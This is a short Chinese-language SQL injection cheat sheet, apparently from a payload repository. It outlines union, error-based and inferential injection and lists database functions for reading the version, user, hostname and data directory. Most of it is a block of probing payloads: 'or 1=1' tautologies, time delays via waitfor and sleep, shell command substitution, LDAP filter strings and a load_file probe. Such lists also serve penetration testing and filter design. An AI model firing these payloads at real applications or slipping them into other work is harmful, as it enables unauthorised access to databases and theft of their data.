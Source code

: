 SQL注入可以松散地分为三类，基于联合、基于错误（XPath和双查询）和推断（基于时间和布尔）

为了避免重复，在您看到：version()（用于检索数据库版本）的任何位置，都可以将其替换为：

database() – 检索当前数据库的名称 
user() – 检索数据库运行时使用的用户名
@@hostname – 检索服务器的主机名和IP地址
@@datadir – 检索数据库文件在服务器中的位置

### 漏洞探测 Payloads

payload过滤符号判断
```sql
<>"'%;)(&+-=
|
!
?
/
//
//*
'
' --
1 or 1=1
1;SELECT%20*
1 waitfor delay '0:0:10'--
'%20or%20''='
'%20or%201=1
')%20or%20('x'='x
'%20or%20'x'='x
%20or%20x=x
%20'sleep%2050'
%20$(sleep%2050)
%21
23 OR 1=1
%26
%27%20or%201=1
%28
%29
%2A%28%7C%28mail%3D%2A%29%29
%2A%28%7C%28objectclass%3D%2A%29%29
%2A%7C
||6
'||'6
(||6)
%7C
a'
admin' or '
' and 1=( if((load_file(char(110,46,101,120,116))<>char(39,39)),1,0));
' and 1 in (SELECT var FROM temp)--
anything' OR 'x'='x
"a"" or 1=1--"
a' or 1=1--
"a"" or 3=3--"
a' or 3=3--
a' or 'a' = 'a
&apos;%20OR
' having 1=1--
hi or 1=1 --"
hi' or 1=1 --
"hi"") or (""a""=""a"
hi or a=a
hi' or 'a'='a
hi') or ('a'='a
'hi' or 'x'='x';
insert
```